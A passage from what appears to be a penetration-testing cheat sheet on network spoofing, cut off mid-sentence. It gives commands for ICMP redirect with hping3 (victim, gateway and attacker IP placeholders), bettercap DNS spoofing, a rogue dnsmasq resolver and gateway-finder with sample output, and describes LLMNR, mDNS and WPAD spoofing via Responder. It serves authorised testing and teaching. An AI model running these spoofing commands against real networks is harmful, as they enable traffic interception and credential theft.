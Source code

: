 Ettercap
icmp_redirect
hping3 [VICTIM IP ADDRESS] -C 5 -K 1 -a [VICTIM DEFAULT GW IP ADDRESS] --icmp-gw [ATTACKER IP ADDRESS] --icmp-ipdst [DST IP ADDRESS] --icmp-ipsrc [VICTIM IP ADDRESS] #Send icmp to [1] form [2], route to [3] packets sent to [4] from [5]

DNS Spoofing

The attacker will resolve some (or all) the domains that the victim ask for.

set dns.spoof.hosts ./dns.spoof.hosts; dns.spoof on

Configure own DNS with dnsmasq

apt-get install dnsmasqecho "addn-hosts=dnsmasq.hosts" > dnsmasq.conf #Create dnsmasq.confecho "127.0.0.1   domain.example.com" > dnsmasq.hosts #Domains in dnsmasq.hosts will be the domains resolved by the Dsudo dnsmasq -C dnsmasq.conf --no-daemon
dig @localhost domain.example.com # Test the configured DNS

Local Gateways

 Multiple routes to systems and networks often exist. Upon building a list of MAC addresses within the local network, use gateway-finder.py to identify hosts that support IPv4 forwarding.

root@kali:~# git clone https://github.com/pentestmonkey/gateway-finder.git
root@kali:~# cd gateway-finder/
root@kali:~# arp-scan -l | tee hosts.txt
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.6 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/) 
10.0.0.100     00:13:72:09:ad:76       Dell Inc.
10.0.0.200     00:90:27:43:c0:57       INTEL CORPORATION
10.0.0.254     00:08:74:c0:40:ce       Dell Computer Corp.
​
root@kali:~/gateway-finder# ./gateway-finder.py -f hosts.txt -i 209.85.227.99
gateway-finder v1.0 http://pentestmonkey.net/tools/gateway-finder
[+] Using interface eth0 (-I to change)
[+] Found 3 MAC addresses in hosts.txt
[+] We can ping 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]
[+] We can reach TCP port 80 on 209.85.227.99 via 00:13:72:09:AD:76 [10.0.0.100]

​Spoofing LLMNR, NBT-NS, and mDNS​

Microsoft systems use Link-Local Multicast Name Resolution (LLMNR) and the NetBIOS Name Service (NBT-NS) for local host resolution when DNS lookups fail. Apple Bonjour and Linux zero-configuration implementations use Multicast DNS (mDNS) to discover systems within a network. These protocols are unauthenticated and broadcast messages over UDP; thus, attackers can exploit them to direct users to malicious services.

You can impersonate services that are searched by hosts using Responder to send fake responses.
Read here more information about how to Impersonate services with Responder.
​Spoofing WPAD​

Many browsers use Web Proxy Auto-Discovery (WPAD) to load proxy settings from the network. A WPAD server provides client proxy settings via a particular URL (e.g., http://wpad.example.org/wpad.dat) upon being identified through any of the following:

    DHCP, using a code 252 entry34​
